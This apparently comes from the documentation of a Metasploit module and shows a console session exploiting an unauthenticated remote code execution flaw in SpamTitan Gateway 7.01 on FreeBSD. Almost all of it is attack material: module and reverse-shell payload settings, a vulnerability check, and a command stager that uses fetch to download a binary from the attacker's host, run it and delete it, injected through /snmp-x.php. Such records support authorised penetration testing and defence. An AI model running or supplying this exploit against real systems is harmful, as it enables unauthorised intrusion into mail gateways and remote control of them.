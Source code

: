 ### SpamTitan Gateway v7.01 - target 2 (FreeBSD Dropper - x86)

```
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > set target 2
target => 2
msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > show options

Module options (exploit/freebsd/webapp/spamtitan_unauth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   ALLOWEDIP                   no        The IP address that will be allowed to query the injected `extend` command. This IP will be added to the SNMP configuration file on the target. This is tipically this host IP address, but can be different if your are in a NAT'ed network. If not set, `LHOST` will be used instead. If `LHOST` is not set, it will default to `127.0.0.1`.
   COMMUNITY  BTMlXXtt         no        The SNMP Community String to use (random string by default)
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RETRIES    1                yes       SNMP Retries
   RHOSTS     172.16.60.101    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (UDP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to SpamTitan
   TIMEOUT    1                yes       SNMP Timeout
   URIPATH                     no        The URI to use for this exploit (default is random)
   VERSION    1                yes       SNMP Version <1/2c>
   VHOST                       no        HTTP server virtual host


Payload options (bsd/x86/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.60.1      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   FreeBSD Dropper (x86)

msf6 exploit(freebsd/webapp/spamtitan_unauth_rce) > run

[*] Started reverse TCP handler on 172.16.60.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Check if /snmp-x.php exists
[+] The target appears to be vulnerable.
[*] Using URL: http://0.0.0.0:8080/EtQflZ
[*] Local IP: http://192.168.1.75:8080/EtQflZ
[*] Generated command stager: ["fetch -qo /tmp/uTJGnSFj http://172.16.60.1:8080/EtQflZ", "chmod +x /tmp/uTJGnSFj", "/tmp/uTJGnSFj", "rm -f /tmp/uTJGnSFj"]
[*] Send a request to /snmp-x.php and inject the payload: /bin/tcsh -c 'fetch\ -qo\ /tmp/uTJGnSFj\ http://172.16.60.1:8080/EtQflZ&'#
```